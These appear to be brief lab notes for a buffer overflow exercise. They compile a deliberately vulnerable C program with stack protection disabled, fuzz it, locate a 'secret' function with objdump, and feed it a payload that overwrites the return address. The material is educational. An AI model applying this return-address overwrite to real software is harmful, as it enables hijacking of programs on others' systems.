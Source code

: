 For a freeish cloud VM, check out cloud.google.com, you get $300 credit towards compute for your first year. This can also be done in any linux virtual machine you build.

The code and example is from https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/

If you don't get the same memory address for vuln.c, you'll have to work on it. Or: wget https://dhavalkapil.com/assets/files/Buffer-Overflow-Exploit/vuln

vi vuln.c

gcc vuln.c -o vuln -fno-stack-protector -m32

./vuln

vi fuzz.py

python fuzz.py

objdump -d vuln

objdump -d vuln | grep secret

python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln
